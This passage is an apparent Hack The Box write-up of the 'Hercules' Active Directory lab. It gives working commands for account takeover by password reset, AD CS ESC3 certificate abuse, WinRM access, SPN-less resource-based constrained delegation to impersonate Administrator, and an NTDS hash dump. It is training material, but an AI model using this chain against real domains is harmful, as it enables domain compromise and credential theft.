distinguishedName: CN=ENTERPRISE01-8.1,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=ENTERPRISE02-8.1,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=Windows Computer Administrators,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=IIS_Administrator,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=Taylor Maxwell,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=Fernando Rodriguez,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
```

These are the child items within this container

Ill have a look at all the users in bloodhound

`fernando.r` stands out, he is part of the `smartcard operators` group, likely pointing me at ADCS

## Compromising `fernando.r`

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k remove uac -f ACCOUNTDISABLE 'fernando.r'
[+] ['ACCOUNTDISABLE'] property flags removed from fernando.r's userAccountControl
```

Ill re enable the account

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k set password 'fernando.r' 'Password123!'       
[+] Password changed successfully!
```

Ill change his password so i can use his account to enumerate ADCS

```python
nxc smb dc.hercules.htb -u fernando.r -p 'Password123!' -k --generate-tgt fernando.r
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\fernando.r:Password123! 
SMB         dc.hercules.htb 445    dc               [+] TGT saved to: fernando.r.ccache
SMB         dc.hercules.htb 445    dc               [+] Run the following command to use the TGT: export KRB5CCNAME=fernando.r.ccache

export KRB5CCNAME=fernando.r.ccache
```

Ill then get a TGT and export the TGT

## ADCS

```python
certipy-ad find -u 'fernando.r@hercules.htb' -k -no-pass -dc-host dc.hercules.htb -dc-ip 10.129.242.196 -target-ip 10.129.242.196 -target dc.hercules.htb -stdout -enabled -vulnerable
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'CA-HERCULES' via RRP
[*] Successfully retrieved CA configuration for 'CA-HERCULES'
[*] Checking web enrollment for CA 'CA-HERCULES' @ 'dc.hercules.htb'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : CA-HERCULES
    DNS Name                            : dc.hercules.htb
    Certificate Subject                 : CN=CA-HERCULES, DC=hercules, DC=htb
    Certificate Serial Number           : 1DD5F287C078F9924ED52E93ADFA1CCB
    Certificate Validity Start          : 2024-12-04 01:34:17+00:00
    Certificate Validity End            : 2034-12-04 01:44:17+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HERCULES.HTB\Administrators
      Access Rights
        ManageCa                        : HERCULES.HTB\Administrators
                                          HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        ManageCertificates              : HERCULES.HTB\Administrators
                                          HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Enroll                          : HERCULES.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : MachineEnrollmentAgent
    Display Name                        : Enrollment Agent (Computer)
    Certificate Authorities             : CA-HERCULES
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireDnsAsCn
    Enrollment Flag                     : AutoEnrollment
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-12-04T01:44:26+00:00
    Template Last Modified              : 2024-12-04T01:44:51+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HERCULES.HTB\Smartcard Operators
                                          HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : HERCULES.HTB\Enterprise Admins
        Full Control Principals         : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Owner Principals          : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Dacl Principals           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Property Enroll           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
    [+] User Enrollable Principals      : HERCULES.HTB\Smartcard Operators
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
  1
    Template Name                       : EnrollmentAgentOffline
    Display Name                        : Exchange Enrollment Agent (Offline request)
    Certificate Authorities             : CA-HERCULES
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-12-04T01:44:26+00:00
    Template Last Modified              : 2024-12-04T01:44:51+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HERCULES.HTB\Smartcard Operators
                                          HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : HERCULES.HTB\Enterprise Admins
        Full Control Principals         : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Owner Principals          : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Dacl Principals           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Property Enroll           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
    [+] User Enrollable Principals      : HERCULES.HTB\Smartcard Operators
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
  2
    Template Name                       : EnrollmentAgent
    Display Name                        : Enrollment Agent
    Certificate Authorities             : CA-HERCULES
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : AutoEnrollment
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-12-04T01:44:26+00:00
    Template Last Modified              : 2024-12-04T01:44:51+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HERCULES.HTB\Smartcard Operators
                                          HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : HERCULES.HTB\Enterprise Admins
        Full Control Principals         : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Owner Principals          : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Dacl Principals           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
        Write Property Enroll           : HERCULES.HTB\Domain Admins
                                          HERCULES.HTB\Enterprise Admins
    [+] User Enrollable Principals      : HERCULES.HTB\Smartcard Operators
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```

Several ADCS vulnerabilities

## ESC3

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template

```python
certipy-ad req -u 'fernando.r@hercules.htn' -k -no-pass -dc-ip '10.129.242.196' -target 'dc.hercules.htb' -ca 'CA-HERCULES' -template 'EnrollmentAgent' -dc-host dc.hercules.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'fernando.r@hercules.htb'
[*] Certificate object SID is 'S-1-5-21-1889966460-2597381952-958560702-1121'
[*] Saving certificate and private key to 'fernando.r.pfx'
[*] Wrote certificate and private key to 'fernando.r.pfx'
```

Ill first request a certificate for the `EnrollmentAgent` template

However the second step fails, after some research i believe it is because of an issue with certipy and how it handles requests like this with kerberos

It repeatedly gives me the error `RPC_E_CALL_COMPLETE`

```python
[*] Requesting certificate via RPC
[*] Request ID is 8
[-] Got error while requesting certificate: code: 0x80010117 - RPC_E_CALL_COMPLETE - Call context cannot be accessed after call completed.
Would you like to save the private key? (y/N): n
[-] Failed to request certificate
```

> The error 0x80010117 - RPC_E_CALL_COMPLETE combined with using the -k (Kerberos authentication) flag is a known bug in Certipy when handling on-behalf-of requests over RPC. When you pass the -k flag, Certipy attempts to negotiate the request context via Kerberos tickets instead of NTLM. However, during the second phase of an ESC3 request, the signature processing logic crashes the RPC context, resulting in the "Call context cannot be accessed after call completed" failure.

https://github.com/ly4k/Certipy/issues/174

And after researching more i find an issue in the certipy wiki and someone recommends using the `-dcom` option to force DCOM instead of RPC

```python
certipy-ad req -u "fernando.r@hercules.htb" -k -no-pass -dc-ip 10.129.58.198 -dc-host dc.hercules.htb -target "dc.hercules.htb" -ca 'CA-HERCULES' -template "User" -pfx fernando.r.pfx -on-behalf-of 'HERCULES\\Administrator' -dcom 
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via DCOM
[*] Request ID is 7
[-] Got error while requesting certificate: code: 0x80094009 - CERTSRV_E_RESTRICTEDOFFICER - The operation is denied. It can only be performed by a certificate manager that is allowed to manage certificates for the current requester.
Would you like to save the private key? (y/N): n
```

Using DCOM still fails, this is likely because i cannot request a certificate in behalf of the administrator, i need to target another user with interesting permissions

So ill do some enumeration on some of the users that have interesting permissions

Ill choose to target the `ashley.b` user to start since she likely has some interesting permissions as discovered earlier from the email and the .lnk file

```python
certipy-ad req -u "fernando.r@hercules.htb" -k -no-pass -dc-ip 10.129.58.200 -dc-host dc.hercules.htb -target "dc.hercules.htb" -ca 'CA-HERCULES' -template "User" -pfx fernando.r.pfx -on-behalf-of 'HERCULES\ashley.b' -dcom      
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via DCOM
[*] Request ID is 39
[*] Successfully requested certificate
[*] Got certificate with UPN 'ashley.b@hercules.htb'
[*] Certificate object SID is 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Saving certificate and private key to 'ashley.b.pfx'
[*] Wrote certificate and private key to 'ashley.b.pfx'
```

Then ill request the certificate for this user

```python
certipy-ad auth -pfx ashley.b.pfx -dc-ip 10.129.58.200            
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ashley.b@hercules.htb'
[*]     Security Extension SID: 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Using principal: 'ashley.b@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ashley.b.ccache'
[*] Wrote credential cache to 'ashley.b.ccache'
[*] Trying to retrieve NT hash for 'ashley.b'
[*] Got hash for 'ashley.b@hercules.htb': aad3b435b51404eeaad3b435b51404ee:1e719fbfddd226da74f644eac9df7fd2
```

I now have the NT hash and the TGT for this user, and i can enumerate her permissions
## Enumeration as `ashley.b`



She is part of remote management users

## Access over winrm as `ashley.b`

```python
evil-winrm -i dc.hercules.htb -r hercules.htb -S           
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ashley.b\Documents>
```

And now if i remember back to the .lnk file it said there was a script in her desktop

## Compromising `IIS_Administrator`

```python
*Evil-WinRM* PS C:\Users\ashley.b\Desktop> type aCleanup.ps1
Start-ScheduledTask -TaskName "Password Cleanup"
```

Its running under a scheduled task

```python
*Evil-WinRM* PS C:\Users\ashley.b\Desktop> (Get-ScheduledTask -TaskName "Password Cleanup").Actions


Id               :
Arguments        : -File "C:\Users\Administrator\AppData\Local\Windows\Password Cleanup.ps1"
Execute          : powershell.exe
WorkingDirectory :
PSComputerName   :


*Evil-WinRM* PS C:\Users\ashley.b\Desktop>
```

As seen here its running a script in the Administrator directory so i wont be able to see what its doing

But i think running this script will reset the ACLs of the users

```python
Hello Ashley,

The issue you are facing is that some members in the Department were once p=
art of sensitive groups which are blocking your permissions.

I've discussed your issue at length with security and here is a solution th=
at we feel works for both us and your team. I've attached a copy of the scr=
ipt your team should run to your home folder. For convenience, We have prov=
ided a shortcut to the script in the IT share. You may also run the task ma=
nually from powershell.

If you have any other issues feel free to inform me.

Regards, Domain Admins.
```

She also has an email in her desktop, this says that users who were ever considered sensitive dont inherit permissions like other users do

This is true, any user thats ever part of a higher privileged group hold the attribute `adminCount=1` which means when you have full control over an OU any user with that attribute dont inherit the rights

So maybe running this script will cause this attribute to be cleared since this is a `solution` 

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k set owner 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'auditor'
[!] S-1-5-21-1889966460-2597381952-958560702-1128 is already the owner, no modification will be made

bloodyAD --host dc.hercules.htb -d hercules.htb -k add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'auditor'
[+] auditor has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

bloodyAD --host dc.hercules.htb -d hercules.htb -k add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'IT SUPPORT'
[+] IT SUPPORT has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
```

First ill ensure the `auditor` account has full control over the OU, then running this script hopefully should clear the ACLs and mean i can access the `iis_administrator` account

```python
*Evil-WinRM* PS C:\Users\ashley.b\Desktop> Start-ScheduledTask "Password Cleanup"
```

Ill then run the script

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k set password 'iis_administrator' 'Password123!'
[+] Password changed successfully!
```

I can now change the password of this user!

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k remove uac -f ACCOUNTDISABLE 'iis_administrator'
[+] ['ACCOUNTDISABLE'] property flags removed from iis_administrator's userAccountControl
```

I also need to re enable the account!

```python
nxc smb dc.hercules.htb -u iis_administrator -p 'Password123!' -k
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\iis_administrator:Password123!
```

This user is now compromised!

## Compromising `iis_webserver$`



I can change the password of this user too

```python
nxc smb dc.hercules.htb -u iis_administrator -p 'Password123!' -k --generate-tgt iisadmin
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\iis_administrator:Password123! 
SMB         dc.hercules.htb 445    dc               [+] TGT saved to: iisadmin.ccache
SMB         dc.hercules.htb 445    dc               [+] Run the following command to use the TGT: export KRB5CCNAME=iisadmin.ccache

export KRB5CCNAME=iisadmin.ccache
```

Then ill get a TGT and export it

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k set password 'iis_webserver$' 'Password123!'
[+] Password changed successfully!
```

Then change the password!

```python
nxc smb dc.hercules.htb -u 'iis_webserver$' -p 'Password123!' -k          
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\iis_webserver$:Password123!
```

This user is now compromised!

## Resource Based Constrained Delegation (SPN-less)

```python
findDelegation.py hercules.htb/ -k -no-pass -dc-host dc.hercules.htb                   
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

AccountName     AccountType  DelegationType              DelegationRightsTo  SPN Exists 
--------------  -----------  --------------------------  ------------------  ----------
iis_webserver$  Person       Resource-Based Constrained  DC$                 No         
DC$             Computer     Unconstrained               N/A                 Yes 
```

Looks like there is RBCD!

```python
getTGT.py -hashes :$(pypykatz crypto nt 'Password123!') "hercules.htb/iis_webserver$"
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in iis_webserver$.ccache
```

The first step is to grab the TGT

```python
export KRB5CCNAME=iis_webserver\$.ccache
```

Then export it

```python
rbcd.py -delegate-from 'iis_webserver$' -delegate-to 'DC$' -dc-ip '10.129.58.200' -action 'write' 'hercules.htb/iis_webserver$' -k -no-pass -dc-host dc.hercules.htb
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[*]     iis_webserver$   (S-1-5-21-1889966460-2597381952-958560702-1124)
[*] iis_webserver$ can already impersonate users on DC$ via S4U2Proxy
[*] Not modifying the delegation rights.
[*] Accounts allowed to act on behalf of other identity:
[*]     iis_webserver$   (S-1-5-21-1889966460-2597381952-958560702-1124)
```

Then ill configure the RBCD

```python
describeTicket.py iis_webserver\$.ccache | grep 'Ticket Session Key' 
[*] Ticket Session Key            : a9f4d76cdc5ba32d6e0763da9d106eb7
```

Ill then pull out the ticket session key from my TGT

```python
pypykatz crypto nt 'Password123!'
2b576acbe6bcfda7294d6bd18041b8fe
```

Then convert the current password to an NT hash

```python
changepasswd.py -newhashes ':a9f4d76cdc5ba32d6e0763da9d106eb7' -k -hashes ':2b576acbe6bcfda7294d6bd18041b8fe' 'hercules.htb/iis_webserver$@dc.hercules.htb'                                
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of hercules.htb\iis_webserver$
[*] Connecting to DCE/RPC as hercules.htb\iis_webserver$
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).
```

Ill then use the NTLM hash and set the session key to the new hash

```python
getST.py -u2u -impersonate "Administrator" -spn "cifs/dc.hercules.htb" -k -no-pass 'hercules.htb/iis_webserver$'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
```

Ill then request the ticket

```python
export KRB5CCNAME=Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
```

Then export it!

## Domain Admin

```python
nxc smb dc.hercules.htb --use-kcache --ntds                                              
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\Administrator from ccache (Pwn3d!)
SMB         dc.hercules.htb 445    dc               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.hercules.htb 445    dc               Administrator:500:aad3b435b51404eeaad3b435b51404ee:56855ee6b7570edefde6ac262200756e:::
SMB         dc.hercules.htb 445    dc               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.hercules.htb 445    dc               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:aa9d05e554420b27186ffe97882303c2:::
SMB         dc.hercules.htb 445    dc               hercules.htb\jessica.e:1113:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\mikayla.a:1114:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\stephanie.w:1115:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\johanna.f:1116:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\heather.s:1117:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\camilla.b:1118:aad3b435b51404eeaad3b435b51404ee:75a83e8aa1b31e425f01c91f3ac5e049:::
SMB         dc.hercules.htb 445    dc               hercules.htb\iis_administrator:1119:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         dc.hercules.htb 445    dc               hercules.htb\taylor.m:1120:aad3b435b51404eeaad3b435b51404ee:952294bde2537ad3568133085a74d4b2:::
SMB         dc.hercules.htb 445    dc               hercules.htb\fernando.r:1121:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         dc.hercules.htb 445    dc               hercules.htb\james.s:1122:aad3b435b51404eeaad3b435b51404ee:c23578256755003649011ee7c9fef7b2:::
SMB         dc.hercules.htb 445    dc               hercules.htb\anthony.r:1123:aad3b435b51404eeaad3b435b51404ee:c23578256755003649011ee7c9fef7b2:::
SMB         dc.hercules.htb 445    dc               hercules.htb\iis_webserver$:1124:aad3b435b51404eeaad3b435b51404ee:a9f4d76cdc5ba32d6e0763da9d106eb7:::
SMB         dc.hercules.htb 445    dc               hercules.htb\iis_hadesapppool$:1125:aad3b435b51404eeaad3b435b51404ee:d5c8594cd155ad4d55ed928f8d158d33:::
SMB         dc.hercules.htb 445    dc               hercules.htb\iis_apppoolidentity$:1126:aad3b435b51404eeaad3b435b51404ee:d5c8594cd155ad4d55ed928f8d158d33:::
SMB         dc.hercules.htb 445    dc               hercules.htb\iis_defaultapppool$:1127:aad3b435b51404eeaad3b435b51404ee:d5c8594cd155ad4d55ed928f8d158d33:::
SMB         dc.hercules.htb 445    dc               hercules.htb\auditor:1128:aad3b435b51404eeaad3b435b51404ee:a9285c625af80519ad784729655ff325:::
SMB         dc.hercules.htb 445    dc               hercules.htb\vincent.g:1129:aad3b435b51404eeaad3b435b51404ee:1d1b98effbbab0dd5ff56d95912d8a50:::
SMB         dc.hercules.htb 445    dc               hercules.htb\nate.h:1130:aad3b435b51404eeaad3b435b51404ee:1d1b98effbbab0dd5ff56d95912d8a50:::
SMB         dc.hercules.htb 445    dc               hercules.htb\stephen.m:1131:aad3b435b51404eeaad3b435b51404ee:9aaaedcb19e612216a2dac9badb3c210:::
SMB         dc.hercules.htb 445    dc               hercules.htb\mark.s:1132:aad3b435b51404eeaad3b435b51404ee:9aaaedcb19e612216a2dac9badb3c210:::
SMB         dc.hercules.htb 445    dc               hercules.htb\elijah.m:1133:aad3b435b51404eeaad3b435b51404ee:1d1b98effbbab0dd5ff56d95912d8a50:::
SMB         dc.hercules.htb 445    dc               hercules.htb\angelo.o:1134:aad3b435b51404eeaad3b435b51404ee:1d1b98effbbab0dd5ff56d95912d8a50:::
SMB         dc.hercules.htb 445    dc               hercules.htb\ashley.b:1135:aad3b435b51404eeaad3b435b51404ee:1e719fbfddd226da74f644eac9df7fd2:::
SMB         dc.hercules.htb 445    dc               hercules.htb\clarissa.c:1136:aad3b435b51404eeaad3b435b51404ee:924ebb8d5e7f953241252cf64e84ee58:::
SMB         dc.hercules.htb 445    dc               hercules.htb\winda.s:1137:aad3b435b51404eeaad3b435b51404ee:924ebb8d5e7f953241252cf64e84ee58:::
SMB         dc.hercules.htb 445    dc               hercules.htb\rene.s:1138:aad3b435b51404eeaad3b435b51404ee:924ebb8d5e7f953241252cf64e84ee58:::
SMB         dc.hercules.htb 445    dc               hercules.htb\will.s:1139:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\zeke.s:1140:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\adriana.i:1141:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\tish.c:1142:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\jennifer.a:1143:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\shae.j:1144:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\joel.c:1145:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\jacob.b:1146:aad3b435b51404eeaad3b435b51404ee:d620c64ffab6d700658d26648c6c7b65:::
SMB         dc.hercules.htb 445    dc               hercules.htb\web_admin:1147:aad3b435b51404eeaad3b435b51404ee:bba073b6255e15b30ac6204d67933ad8:::
SMB         dc.hercules.htb 445    dc               hercules.htb\bob.w:1148:aad3b435b51404eeaad3b435b51404ee:8a65c74e8f0073babbfac6725c66cc3f:::
SMB         dc.hercules.htb 445    dc               hercules.htb\ken.w:1149:aad3b435b51404eeaad3b435b51404ee:bbe608565f201166999904e40c967c7b:::
SMB         dc.hercules.htb 445    dc               hercules.htb\johnathan.j:1150:aad3b435b51404eeaad3b435b51404ee:5809e5fc2ca162d909b15c62d7c3707c:::
SMB         dc.hercules.htb 445    dc               hercules.htb\harris.d:1151:aad3b435b51404eeaad3b435b51404ee:bba073b6255e15b30ac6204d67933ad8:::
SMB         dc.hercules.htb 445    dc               hercules.htb\ray.n:1152:aad3b435b51404eeaad3b435b51404ee:bba073b6255e15b30ac6204d67933ad8:::
SMB         dc.hercules.htb 445    dc               hercules.htb\natalie.a:1153:aad3b435b51404eeaad3b435b51404ee:a023eb224e137b1c28de1a50d12519d5:::
SMB         dc.hercules.htb 445    dc               hercules.htb\ramona.l:1154:aad3b435b51404eeaad3b435b51404ee:bba073b6255e15b30ac6204d67933ad8:::
SMB         dc.hercules.htb 445    dc               hercules.htb\fiona.c:1155:aad3b435b51404eeaad3b435b51404ee:bba073b6255e15b30ac6204d67933ad8:::
SMB         dc.hercules.htb 445    dc               hercules.htb\patrick.s:1156:aad3b435b51404eeaad3b435b51404ee:08cbc306325b2ef9da7bbdb85e528613:::
SMB         dc.hercules.htb 445    dc               hercules.htb\tanya.r:1157:aad3b435b51404eeaad3b435b51404ee:08cbc306325b2ef9da7bbdb85e528613:::
SMB         dc.hercules.htb 445    dc               Admin:5103:aad3b435b51404eeaad3b435b51404ee:ef0e8c35557ed7790eb8499fc1c24fb6:::
SMB         dc.hercules.htb 445    dc               DC$:1000:aad3b435b51404eeaad3b435b51404ee:37229f3b87fa161bc3aeda8d67c6e44d:::
SMB         dc.hercules.htb 445    dc               WINSRV01-2016$:1158:aad3b435b51404eeaad3b435b51404ee:989f931779b1379c6345b6e2773244a0:::
SMB         dc.hercules.htb 445    dc               WINSRV02-2016$:1159:aad3b435b51404eeaad3b435b51404ee:bb32a35136321fb9cd41374a1a62b14a:::
SMB         dc.hercules.htb 445    dc               WINSRV03-2016$:1160:aad3b435b51404eeaad3b435b51404ee:68f03b6856cf02e7c1ddac0758ca6b25:::
